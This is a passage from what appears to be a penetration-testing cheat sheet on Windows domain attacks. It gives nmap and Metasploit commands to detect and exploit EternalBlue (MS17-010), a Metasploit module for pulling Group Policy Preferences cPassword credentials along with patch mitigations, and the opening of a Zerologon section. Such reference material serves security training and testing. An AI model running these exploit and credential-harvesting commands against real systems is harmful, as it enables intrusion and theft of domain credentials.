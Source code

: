 Exploits SMBv1 buffer overflow to enable remote code execution.

#### Detection

{% code title="nmap" %}
```bash
nmap -p 445 --script smb-vuln-ms17-010 <IP>
```
{% endcode %}

{% code title="Metasploit" %}
```bash
use auxiliary/scanner/smb/smb_ms17_010
```
{% endcode %}



#### Exploit

{% code title="Metasploit" %}
```bash
use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS IP
exploit
```
{% endcode %}

### GPP Attacks

Group Policy Prederences (GPP) allowed admins to create policies using embedded credentials. These credentials were encrypted and placed in a "cPassword". The key was accidentally released.&#x20;

Patched in MS14-025 but it doesn't prevent previous uses.

{% code title="Metasploit module" %}
```bash
service postgresql start && msfconsole

use auxiliary/scanner/smb/smb_enum_gpp

show options

exploit
```
{% endcode %}

#### Mitigations:

* PATCH! Fixed in KB2962486
* Delete the old GPP xml file stored in the SYSVOL



### Zerologon (CVE-2020-1472)

ZeroLogon is a **critical vulnerability** found in **Microsoft's Netlogon protocol**, which is used by Windows servers (like domain controllers) to allow users and computers to log in to the network.
